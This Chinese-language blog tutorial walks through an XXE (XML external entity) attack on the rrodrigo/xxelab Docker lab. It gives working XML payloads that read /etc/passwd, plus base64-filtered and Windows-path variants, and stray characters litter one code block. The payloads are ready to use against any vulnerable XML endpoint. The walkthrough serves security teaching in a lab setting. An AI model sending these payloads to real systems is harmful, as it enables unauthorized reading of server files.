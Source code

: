 [docker](https://so.csdn.net/so/search?q=docker&spm=1001.2101.3001.7020)搜索xxe相关镜像包，然后pull下来，我这里pull的是：rrodrigo/xxelab 镜像包。

启动docker环境，映射到VPS的32776端口

![](https://img-blog.csdnimg.cn/2020010623115943.png)

访问

![](https://img-blog.csdnimg.cn/20200106231303731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

输入注册数据，[抓包](https://so.csdn.net/so/search?q=%E6%8A%93%E5%8C%85&spm=1001.2101.3001.7020)重放。发现提交数据包采用 xml 格式传递，且邮箱有返回。

![](https://img-blog.csdnimg.cn/20200107113538872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里我们引用外部DTD实体，并且将email的值修改为引用外部实体的值 &file;   因为，返回包会返回email的值，所以返回包会读取我们引用的 /etc/passwd 的值返回给我们，造成了任意文件读取。

这里指定文件/etc/passwd，用不用 file 协议均可。

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE test[      
	<!ENTITY file SYSTEM "/etc/passwd">      
]>      
<root><name>111</name><tel>222</tel><email>&file;</email><password>333</password></root>
```


![](https://img-blog.csdnimg.cn/2020010711382638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200107114040244.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用 base64 编码进行 xxe，防止有返回包验证。返回base64数据包，base64解码之。

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE test[      
	<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">      
]>      
<root><name>111</name><tel>222</tel><email>&file;</email><password>333</password></root>
```


![](https://img-blog.csdnimg.cn/20200107114310731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果服务器的Windows系统的话，

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE test[      
	<!ENTITY file SYSTEM "C:/Users/mi/Desktop/1.txt">      
]>      
<root><name>111</name><tel>222</tel><email>&file;</email><password>333</password></root>       
用file协议      
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE test[      1
	<!ENTITY file SYSTEM "file:///C:/Users/mi/Desktop/1.txt">      1
]>      1
<root><name>111</name><tel>222</tel><email>&file;</email><password>333</password></root>       1
用base64编码      1
<?xml version="1.0" encoding="UTF-8"?>      1
<!DOCTYPE test[      1
	<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/Users/mi/Desktop/1.txt">      1
]>      1
<root><name>111</name><tel>222</tel><email>&file;</email><password>333</password></root>
```


![](https://img-blog.csdnimg.cn/20200318203431476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200318203722677.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200318203701619.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[XML和JSON数据格式](https://blog.csdn.net/qq_36119192/article/details/83047334 "XML和JSON数据格式")

                 [XXE(XML外部实体注入)](https://blog.csdn.net/qq_36119192/article/details/84993356 "XXE(XML外部实体注入)")